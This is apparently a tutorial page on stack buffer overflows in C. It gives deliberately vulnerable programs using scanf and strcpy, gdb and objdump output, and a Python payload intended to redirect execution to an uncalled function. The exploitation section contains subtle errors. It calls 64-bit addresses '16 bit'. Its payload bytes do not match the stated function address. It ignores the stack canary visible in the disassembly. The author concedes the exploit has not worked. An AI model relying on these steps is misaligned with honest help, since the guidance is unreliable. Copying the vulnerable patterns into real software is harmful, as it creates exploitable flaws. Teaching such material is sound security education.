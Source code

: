# Buffer Overflow

**Buffer overflow** is a vulnerability where the buffer of one entity overflows
into another. This vulnerability is most prevalent in languages where memory
allocation is explicitly handled by the user, such as C and C++. Buffer overflow
can be used for binary exploitation.

One prominent example is when the buffer of one variable overflows into another,
which is demonstrated in the code below. This is due to `authenticated` being
declared after `password`.

```c
#include<string.h>
#include<stdio.h>

int main() {
  char password[4];
  int authenticated = 0;
  printf("\nEnter password:\n");
  scanf("%s", password);

  if (!strcmp(password, "abcd")) {
    authenticated = 1;
  }

  if (authenticated) {
    printf("\nAccess granted!");
  } else {
    printf("\nAccess denied!");
  }
}
```

As modern C compilers have some built in protections against overflow, this
program would have to be compiled as `gcc -fno-stack-protector -o vuln vuln.c`.
When running the program, access is granted for the password `abcd` but also for
any string that is longer than four characters.

Our next example is more surprising. Consider the following code snippet. Using
binary exploitation we can get `uncalled_function` to be executed.

```c
#include<stdio.h>
#include<string.h>

void uncalled_function() {
  printf("This function should never be called\n");
}

void called_function(char *args) {
  char buf[16];
  strcpy(buf, args);
  printf("Arg: %s\n", buf);
}

int main(int argc, char **argv) {
  if(argc >= 2) {
    called_function(argv[1]);
  }
  return 0;
}
```

The function can be run as

```sh
> gcc -o vuln.bin vuln.c
> ./vuln.bin $(python -c 'print("A"*16)')
```

We want to change the value of the `call` in the `main` function. We look up the
relative position of `call` in the disassembly code using the GNU debugger. On
my computer it is `35`.

```sh
> gdb -q ./vuln.bin
Reading symbols from ./vuln.bin...
(No debugging symbols found in ./vuln.bin)
(gdb) disas main
Dump of assembler code for function main:
   0x00000000000011df <+0>:	push   %rbp
   0x00000000000011e0 <+1>:	mov    %rsp,%rbp
   0x00000000000011e3 <+4>:	sub    $0x10,%rsp
   0x00000000000011e7 <+8>:	mov    %edi,-0x4(%rbp)
   0x00000000000011ea <+11>:	mov    %rsi,-0x10(%rbp)
   0x00000000000011ee <+15>:	cmpl   $0x1,-0x4(%rbp)
   0x00000000000011f2 <+19>:	jle    0x1207 <main+40>
   0x00000000000011f4 <+21>:	mov    -0x10(%rbp),%rax
   0x00000000000011f8 <+25>:	add    $0x8,%rax
   0x00000000000011fc <+29>:	mov    (%rax),%rax
   0x00000000000011ff <+32>:	mov    %rax,%rdi
   0x0000000000001202 <+35>:	call   0x117f <called_function>
   0x0000000000001207 <+40>:	mov    $0x0,%eax
   0x000000000000120c <+45>:	leave
   0x000000000000120d <+46>:	ret
End of assembler dump.
Dump of assembler code for function called_function:
   0x000000000000117f <+0>:	push   %rbp
   0x0000000000001180 <+1>:	mov    %rsp,%rbp
   0x0000000000001183 <+4>:	sub    $0x30,%rsp
   0x0000000000001187 <+8>:	mov    %rdi,-0x28(%rbp)
   0x000000000000118b <+12>:	mov    %fs:0x28,%rax
   0x0000000000001194 <+21>:	mov    %rax,-0x8(%rbp)
   0x0000000000001198 <+25>:	xor    %eax,%eax
   0x000000000000119a <+27>:	mov    -0x28(%rbp),%rdx
   0x000000000000119e <+31>:	lea    -0x20(%rbp),%rax
   0x00000000000011a2 <+35>:	mov    %rdx,%rsi
   0x00000000000011a5 <+38>:	mov    %rax,%rdi
   0x00000000000011a8 <+41>:	call   0x1030 <strcpy@plt>
   0x00000000000011ad <+46>:	lea    -0x20(%rbp),%rax
   0x00000000000011b1 <+50>:	mov    %rax,%rsi
   0x00000000000011b4 <+53>:	lea    0xe72(%rip),%rax        # 0x202d
   0x00000000000011bb <+60>:	mov    %rax,%rdi
   0x00000000000011be <+63>:	mov    $0x0,%eax
   0x00000000000011c3 <+68>:	call   0x1060 <printf@plt>
   0x00000000000011c8 <+73>:	nop
   0x00000000000011c9 <+74>:	mov    -0x8(%rbp),%rax
   0x00000000000011cd <+78>:	sub    %fs:0x28,%rax
   0x00000000000011d6 <+87>:	je     0x11dd <called_function+94>
   0x00000000000011d8 <+89>:	call   0x1050 <__stack_chk_fail@plt>
   0x00000000000011dd <+94>:	leave
   0x00000000000011de <+95>:	ret
```

Next up we need to find function address of `uncalled_function`. We accomplish
this using `objdump` and `grep`.

```sh
> objdump -d vuln.bin | rg uncalled_function
0000000000001169 <uncalled_function>:
```

Then we can construct our final command. We want to write to `36+4` positions (4
since my computer has 16 bit memory addresses which correspond to 4 ACII
characters). Then the command is:

```sh
> ./vuln.bin $(python -c 'print("A"*39 + "\x96\x11\x00\x00\x00\x00\x00\x00")')
This function should never be called
```

NB: I have not gotten this to work for myself yet but this should be one way of
doing it.
